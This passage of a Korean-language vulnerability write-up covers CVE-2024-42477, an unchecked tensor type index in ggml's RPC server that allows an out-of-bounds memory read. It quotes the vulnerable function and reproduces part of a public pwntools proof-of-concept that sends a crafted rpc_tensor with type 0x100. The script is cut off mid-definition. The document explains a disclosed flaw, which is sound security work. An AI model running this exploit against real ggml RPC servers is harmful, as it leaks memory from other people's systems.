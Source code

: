 ```
#pragma pack(pop)

```

### CVE-2024-42477 (Memory Leak)

rpc_tensor 구조체의 type 멤버를 조작하여 발생하는 Overflow 취약점입니다.

클라이언트로부터 데이터를 받은 후 get_tensor 를 수행할 때, ggml_type_size 함수가 호출되는데요. type 에 따라 type_size 를 반환하도록 의도했지만 type 변수에 대한 검사가 없어서 OOB read 가 가능합니다. 이를 통해 Memory Leak 이 가능하다네요.


```
GGML_CALL size_t ggml_type_size(enum ggml_type type) {
    return type_traits[type].type_size;	//The type value is not properly validated or sanitized.
}

```

### PoC (CVE-2024-42477)

공개된 PoC 는 다음과 같은데요. get_tensor 를 할 때 type 을 0x100 을 지정해서 OOB read 를 하고 있습니다.

```
from pwn import *

ALLOC_BUFFER = 0
GET_ALIGNMENT = 1
GET_MAX_SIZE = 2
BUFFER_GET_BASE = 3
FREE_BUFFER = 4
BUFFER_CLEAR = 5
SET_TENSOR = 6
GET_TENSOR = 7
COPY_TENSOR = 8
GRAPH_COMPUTE = 9
GET_DEVICE_MEMORY = 10

context(arch='amd64',log_level = 'debug')

p = remote("127.0.0.1",50052)
pd = b''
rpc_tensor_pd = flat(
    {
        0: [
            0x1,  # id
            p32(0x100),  # type
            p64(0xdeadbeef),  # buffer
            [  # ne
                p32(0xdeadbeef),
                p32(0xdeadbeef),
                p32(0xdeadbeef),
                p32(0xdeadbeef),
            ],
            [  # nb
                p32(1),
                p32(1),
                p32(1),
                p32(1),
            ],
            p32(0),  # op
            [p32(0)] * 16,  # op_params (corrected from 8 to 16)
            p32(0),  # flags
            [p64(0)] * 10,  # src
            p64(0),  # view_src
            p64(0),  # view_offs
```